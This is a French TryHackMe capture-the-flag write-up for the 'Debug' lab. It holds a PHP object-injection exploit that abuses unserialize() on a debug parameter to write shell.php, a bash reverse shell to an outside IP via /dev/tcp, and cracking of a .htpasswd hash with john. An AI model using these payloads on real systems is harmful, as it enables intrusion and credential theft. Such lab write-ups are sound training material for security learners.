

# Debug #

## Task 1 Introduction ##
## Task 2 Flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.31.149 debug.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A debug.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 19:51 CEST
Nmap scan report for debug.thm (10.10.31.149)
Host is up (0.099s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
|_  256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/17%OT=22%CT=1%CU=35273%PV=Y%DS=2%DC=T%G=Y%TM=616C64
OS:88%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=106%TI=Z%II=I%TS=A)SEQ(SP=
OS:107%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=A)SEQ(SP=106%GCD=1%ISR=106%TI=Z%TS=A
OS:)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M50
OS:6ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF
OS:)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   31.61 ms  10.9.0.1
2   107.52 ms debug.thm (10.10.31.149)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 493.26 seconds
```

D'arpès nmap on a deux service.  
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.  

D'après le titre de la page web, c'est la page par défaut de d'Apache.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u debug.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/backup               (Status: 301) [Size: 307] [--> http://debug.thm/backup/]
/grid                 (Status: 301) [Size: 305] [--> http://debug.thm/grid/]  
/index.html           (Status: 200) [Size: 11321]                             
/index.php            (Status: 200) [Size: 5732]                              
/javascripts          (Status: 301) [Size: 312] [--> http://debug.thm/javascripts/]
/javascript           (Status: 301) [Size: 311] [--> http://debug.thm/javascript/] 
/server-status        (Status: 403) [Size: 274]        
```

Avec gobuster on trouve un répertoire qui est backup.   

    

Dans le répertoire backup trouve plusieurs fichiers.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://debug.thm/backup/index.php.bak -q
```

On télécharge le fichier index.php.bak   

```php
public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}
}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();

```

Dans le fichier de backup on trouve une fonction dangereuse.  
Elle unserialize un paramètre mis par debug.  
Elle crée un fichier à partir de form_file et met le message dedans.  

```php
tim@kali:~/Bureau/tryhackme/write-up$ cat payload.php 
<?php
class FormSubmit
{
   public $form_file = 'shell.php';
   public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.9.228.66/1234 0>&1\'");';
}
print urlencode(serialize(new FormSubmit));

?>
```

On crée un scripte qui va sérialiser notre charge utile, qui est un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ php payload.php 
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A70%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.9.228.66%2F1234+0%3E%261%27%22%29%3B%22%3B%7D
```

On génère notre charge utile.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir le shell.  


On envoie notre charge utile dans le paramètre debug de cette façon : http://debug.thm/index.php?debug=chargeutile.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://debug.thm/shell.php
```

On lance notre shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.31.149.
Ncat: Connection from 10.10.31.149:37216.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@osboxes:/var/www/html$ ls -al
ls -al
total 72
drwxr-xr-x 6 www-data www-data  4096 Oct 17 14:29 .
drwxr-xr-x 3 root     root      4096 Mar  9  2021 ..
-rw-r--r-- 1 www-data www-data    44 Mar  9  2021 .htpasswd
drwxr-xr-x 5 www-data www-data  4096 Mar  9  2021 backup
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 grid
-rw-r--r-- 1 www-data www-data 11321 Mar  9  2021 index.html
-rw-r--r-- 1 www-data www-data  6399 Mar  9  2021 index.php
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 javascripts
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 less
-rw-r--r-- 1 www-data www-data   141 Oct 17 14:29 message.txt
-rw-r--r-- 1 www-data www-data  2339 Mar  9  2021 readme.md
-rw-r--r-- 1 www-data www-data    70 Oct 17 14:29 shell.php
-rw-r--r-- 1 www-data www-data 10371 Mar  9  2021 style.css
www-data@osboxes:/var/www/html$ cat .htpasswd
cat .htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

On liste tous le fichiers.  
On trouve .htpsswd, il y a des identifiants dans le fichier qui sont : james et un mot de passe qui est un hash.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1' > hash 
tim@kali:~/Bureau/tryhackme/write-up$ echo '$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1' > hash 
tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jamaica          (?)
1g 0:00:00:00 DONE (2021-10-17 20:38) 33.33g/s 25600p/s 25600c/s 25600C/s jeffrey..james1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On décode le hash qui est : jamaica   

```bash
su james
Password: jamaica

james@osboxes:/var/www/html$ cd /home/james 
cd /home/james
james@osboxes:~$ ls
ls
Desktop    Downloads         Music              Pictures  Templates  Videos
Documents  examples.desktop  Note-To-James.txt  Public    user.txt
james@osboxes:~$ cat user.txt	
cat user.txt
7e37c84a66cc40b1c6bf700d08d28c20
```

On se connecte sur le compte james.   
On lit le fichier user.txt dans /home/james.   
Le flag est : 7e37c84a66cc40b1c6bf700d08d28c20   